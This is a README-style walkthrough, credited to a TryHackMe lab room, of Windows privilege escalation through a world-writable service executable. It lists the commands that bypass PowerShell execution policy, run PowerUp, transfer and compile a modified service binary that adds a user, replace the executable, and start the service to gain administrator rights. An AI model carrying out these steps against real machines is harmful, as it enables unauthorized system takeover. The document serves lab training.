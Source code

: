 # service-escalation-executable-files

*credit to THM* | https://tryhackme.com/room/windowsprivescarena

1) Start PowerShell:

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`C:\Users\user> powershell -ep bypass`

2) Run *PowerUp.ps1*:

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`PS C:\Users\user> . ./PowerUp.ps1`
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`PS C:\Users\user> Invoke-AllChecks`

* Note that the 'Everyone' user group has full permissions on the 'filepermservice.exe' service executable.

3) Start *pyftpdlib* on Kali:

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`$ python3 -m pyftpdlib -p 21 --write`

* Note: if pyftpdlib is not installed do the following:

[![Image of install](https://github.com/kam1n0/service-escalation-registry/blob/master/tmp_upload/install.png)](#)

4) Copy *windows_service.c* from windows machine:

[![Image of ftp](https://github.com/kam1n0/service-escalation-registry/blob/master/tmp_upload/ftp.png)](#)

* Observe *windows_service.c* was received by the FTP server on Kali

[![Image of upload](https://github.com/kam1n0/service-escalation-registry/blob/master/tmp_upload/upload.png)](#)

5) Edit *windows_service.c* to include the command to add a new user:

[![Image of edit](https://github.com/kam1n0/service-escalation-registry/blob/master/tmp_upload/edit.png)](#)

6) Compile *windows_service.c*:

[![Image of compile](https://github.com/kam1n0/service-escalation-registry/blob/master/tmp_upload/compile.png)](#)

* Note: install *gcc-wingw-w64* if it is not installed

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`$ sudo apt-get install gcc-mingw-w64`

7) Transfer *filepermservice.exe* to windows victim machine:

[![Image of transfer](https://github.com/kam1n0/service-escalation-registry/blob/master/tmp_upload/transfer.png)](#)

8) Copy *filepermservice.exe* to C:\Program Files\File Permissions Service:

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`C:\Users\user\Desktop> cp filepermservice.exe C:\Program Files\File Permissions Service`

9) Start *filepermsvc* service:

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`C:\Users\user\Desktop> sc start filepermsvc`

10) Confirm that the user was added to the local administrators group by typing the following:

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`C:\Users\user\Desktop> net localgroup administrators`
